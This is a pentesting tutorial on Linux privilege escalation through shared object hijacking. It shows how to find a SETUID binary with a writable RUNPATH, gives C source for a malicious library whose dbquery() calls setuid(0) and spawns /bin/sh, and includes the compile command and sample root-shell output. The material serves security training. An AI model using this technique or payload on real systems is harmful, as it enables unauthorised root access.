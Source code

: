 ```yaml
---
title: Shared Object Hijacking
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
```

# Shared Object Hijacking

**1.** Identifying the SETUID Binary

Identify a binary with a **SETUID binary** (owned by root and has the SUID bit set), which means it executes with root privileges.

**2.** Using ldd, we inspect the shared libraries required by the binary.

`Ldd` displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.

```shell-session
ldd NameOfBinary
```

Programs and binaries under development usually have custom libraries associated with them. 

If we  notice that something is loaded from a non-standard library and a non standard location, such as `/development/libshared.so`, this might indicate a potential vulnerability.

**3.** Checking the RUNPATH Configuration.

To determine how the binary finds shared libraries, we inspect it using `readelf`.

```shell-session
readelf -d NameOfBinary  | grep PATH
```

If the configuration allows the loading of libraries from a folder writable by us, we could place a malicious library in it,  which will take precedence over other folders because entries in this file are checked first. Since, in the output from the example, `/development` is specified in `RUNPATH`, any shared object in this directory will be preferred.

**4.** Checking Write Permissions

`/development` comes from the example:

```
ls -la /development/
```

The presence of `drwxrwxrwx` (777 permissions) confirms that any user can write to this directory.


**5.** Testing the Exploitability

To check whether the binary loads the shared object from /development, we place a dummy libshared.so in that directory.

```
cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
./NameOfBinary
```

Output:

```
./NameOfBinary: symbol lookup error: ./NameOfBinary: undefined symbol: dbquery
```

The error message indicates that `payroll` expects a function called `dbquery`, which isn't present in our copied library. This confirms that we can control the library.

**6.** Crafting a Malicious Shared Object

Since the binary is searching for `dbquery`, we create a malicious shared object named src.c with this function.

```C
#include<stdio.h> 
#include<stdlib.h> 
#include<unistd.h>  

void dbquery() {
	printf("Malicious library loaded\n");     
	setuid(0);     
	system("/bin/sh -p"); 
}
```

The `dbquery` function:

1. Prints a message confirming the malicious library is loaded.
2. Calls `setuid(0)` to elevate privileges to root.
3. Spawns a root shell (`/bin/sh -p`).

**7.**  Compiling the Malicious Library

We compile it as a shared object using `gcc`.

```
 gcc src.c -fPIC -shared -o /development/libshared.so
```

Where: 
- `-fPIC`: Generates position-independent code.
- `-shared`: Produces a shared object.


**8.** Gaining a Root Shell

Executing the vulnerable `NameOfBinary` binary now loads our malicious library.

```
./NameOfBinary
```

Output:

```
***************Inlane Freight Employee Database***************  
Malicious library loaded 
# id 

uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```

Since `NameOfBinary` runs as root (due to the SETUID bit), our injected library executes with root privileges, providing a **root shell**.